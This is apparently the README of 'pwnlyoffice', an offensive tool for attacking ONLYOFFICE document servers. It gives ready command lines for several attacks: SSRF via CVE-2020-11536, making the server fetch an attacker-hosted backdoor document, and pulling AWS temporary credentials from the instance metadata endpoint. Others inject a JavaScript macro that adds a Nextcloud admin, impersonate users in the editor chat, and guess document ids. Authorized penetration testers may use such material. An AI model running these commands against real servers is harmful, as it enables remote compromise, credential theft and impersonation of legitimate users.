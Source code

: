 # pwnlyoffice

Exploit ONLYOFFICE Implementations

## Sub-commands

`pwnlyoffice` has a number of sub-commands to carry out actions against vulnerable instances of OnlyOffice. The main ones are:

 - **dl**: Connect to the ONLYOFFICE document server and request that it downloads a provided URL. This can be used to test an instances to see if it has an unauthenticated / weak websocket. A random document id is created and this sub-command can be used to inject a malicious document into the document server (CVE-2020-11536)
 - **macro**: If a pre-existing document id is known, this will inject the given JavaScript file into it as a macro. Two example exploits for NextCloud are included in `/macros`, plus a basic PoC alert box.
 - **chat**: If a pre-existing document id is known, this allows you to connect to the in-editor chat function and pretend to be any user id of your choice.
 - **backdoor**: Generate a malicious document which exploits CVE-2020-11536 to write a backdoor on the server.
 - **shell**: Run commands against a server which has been compromised with the backdoor.
 - **enum**: Attempt to guess valid document ids by providing a file containing a list of potential ids. The script will try each one to find a valid pre-existing document.

## Examples

### Test if a server is vulnerable

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl -D https://yoursite/uniquepath dl
```

Any hits to `/uniquepath` means that the server meets the conditions for being able to have a malicious document injected into it:

1. The authentication is either absent or uses the default JWT signing key
2. The server is able to reach out to the Internet

### Generate a malicious document

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl backdoor
```

This generates `backdoor.docx`. Host this on a web server which is visible to the document server.

### Prompt Document Server to Download Malicious document

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl -D https://yoursite/backdoor.docx dl
```

This will write a number of files into `/var/www/onlyoffice/documentserver/server/FileConverter/bin` using CVE-2020-11536. Depending on the commit status of this project, which files that is and what they do may vary, but this should illustrate the point.

### Run Shell Commands on Server

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl -D https://anyvalidurl shell
```

This feature isn't currently working, but will be in future.

### Get AWS Temporary Credentials

```bash
./pwnlyoffice.py -u https://theonlyofficesiteurl -D http://169.254.169.254/latest/meta-data/iam/security-credentials dl
```

### Inject a Macro Into a Known Doc id 

This macro adds an admin user into Nextcloud. The document id is `1234` and has to be known by the attacker. These vary depending on what the underlying document management system is.

``bash
./pwnlyoffice.py -d 1234 -u https://theonlyofficesiteurl macro macros/nextcloud_addadmin.js
```

### Chat with legitimate users

Masquerading as a user called "Bob", connected to document id "1234"

``bash
./pwnlyoffice.py -d 1234 -u https://theonlyofficesiteurl -U Bob chat
```
